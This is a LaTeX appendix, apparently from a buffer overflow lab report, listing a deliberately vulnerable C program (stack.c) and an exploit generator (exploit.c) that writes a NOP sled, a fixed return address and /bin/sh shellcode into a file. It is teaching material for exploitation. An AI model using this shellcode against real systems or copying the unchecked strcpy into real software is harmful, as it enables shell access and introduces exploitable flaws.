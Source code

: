 \documentclass[a4paper,12pt]{article}
\begin{document}
	\section{Appendix}
	\subsection{Buffer Overflow Exploitation: \texttt{stack.c}}
	\begin{verbatim}
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof (char *str)
{
	char buffer[24];
	
	strcpy(buffer, str);
	
	return 1;
}

int main(int argc, char **argv)
{
	char str[517];
	FILE *badfile;
	
	badfile = fopen("badfile","r");
	fread(str, sizeof(char), 517, badfile);
	bof(str);
	printf("Returned Properly\n");
	return 1;
}
	\end{verbatim}
	\newpage
	\subsection{Buffer Write Operation: \texttt{exploit.c}}
\begin{verbatim}
/* Creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
char shellcode[]=
"\x31\xc0"             /* xorl    %eax,%eax              */
"\x50"                 /* pushl   %eax                   */
"\x68""//sh"           /* pushl   $0x68732f2f            */
"\x68""/bin"           /* pushl   $0x6e69622f            */
"\x89\xe3"             /* movl    %esp,%ebx              */
"\x50"                 /* pushl   %eax                   */
"\x53"                 /* pushl   %ebx                   */
"\x89\xe1"             /* movl    %esp,%ecx              */
"\x99"                 /* cdq                            */
"\xb0\x0b"             /* movb    $0x0b,%al              */
"\xcd\x80"             /* int     $0x80                  */
;

void main(int argc, char **argv)
{
	char buffer[517];
	
	FILE *badfile;
	
	/* Initialize buffer with 0x90 (NOP instruction) */
	memset(&buffer, 0x90, 517);
	
	//Fill up the buffer
	long *fill = (long *) buffer;
	int i;
	for(i=0;i<9;i++,fill++) *fill=0x90909090;
	*fill=0xbffff170;
	strcpy(buffer+64,shellcode);
	
	/* Save the contents to the file "badfile" */
	badfile = fopen("./badfile", "w");
	fwrite(buffer, 517, 1, badfile);
	fclose(badfile);
}
\end{verbatim}
\end{document}
